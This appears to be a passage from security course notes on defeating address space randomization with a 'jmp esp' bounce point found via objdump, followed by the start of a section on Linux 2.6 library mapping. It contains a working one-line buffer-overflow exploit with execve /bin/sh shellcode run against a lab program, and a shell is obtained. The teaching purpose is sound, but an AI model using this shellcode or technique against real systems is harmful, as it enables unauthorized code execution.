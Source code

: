 The function `jmpesp_embedding` uses C's inline assembly embedding, the
`asm()` function to put a `jmp esp` instruction into the C code at a
consistent place. In particular, it will be in the `text` segment, which
is not randomized. The reason is somewhat obvious when you think about
it, there are a lot of hard jmps and control flow that requires knowing
the addresses of other functions. This stuff can't be changed willy
nilly, so it can't be randomized like the stack, where everything is
relative to the stack and base pointers.

To learn the address of our bounce point, we can look at `objdump`.

``` {.example}
080484ad <jmpesp_embedding>:
 80484ad:   55                      push   ebp
 80484ae:   89 e5                   mov    ebp,esp
 80484b0:   ff e4                   jmp    esp
 80484b2:   5d                      pop    ebp
 80484b3:   c3                      ret    
```

At address 0x08048b0, we have a `jmp esp`, and now to use that as our
overwrite for the return address. Below, I use the smallest shell code
(21-byte) code as before:

``` {.example}
user@si485H-base:demo$ ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xb0\x84\x04\x08' + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
$ cat /proc/sys/kernel/randomize_va_space
2
$ 
```

And, on the first try, BAM!, and look, no NOP sled. As you can see, this
is with address space randomization. This just got easy ... sort of.

Bouncing off Linux Gate (Linux 2.6.X)
-------------------------------------

People have known about this vulnerability for awhile, so they try hard
get rid of bounce points, but that was not always the case. Let's take a
trip down memory lane to 2006 when the Linux 2.6.X kernel was kind.
Ubuntu 6.06 was released (so called Dapper Drake), and for reference, we
are now up to 14.04.

In the Linux 2.6.X kernels, there was a problem with address space
randomization and the loading of some shared libraries. The problem,
there map locations was not random. We can investigate this more by
taking a trip down memory lane ... I've got a Ubuntu 6.06 VM running.

We can run the same tests to check out the randomness as we did in the
last lesson:

``` {.example}
user@ubuntu-6-06:~/si485h-class-demos/class/16$ uname -a
Linux ubuntu-6-06 2.6.15-26-386 #1 PREEMPT Thu Aug 3 02:52:00 UTC 2006 i686 GNU/Linux

user@ubuntu-6-06:~/si485h-class-demos/class/16$ for i in `seq 1 1 100`; do ./rand_sample ; done | python random_bits.py 
Consitent:  10111111100000000000000000000100 0xBF800004L
  Changed:  11111111100000000000000000001111 19
```
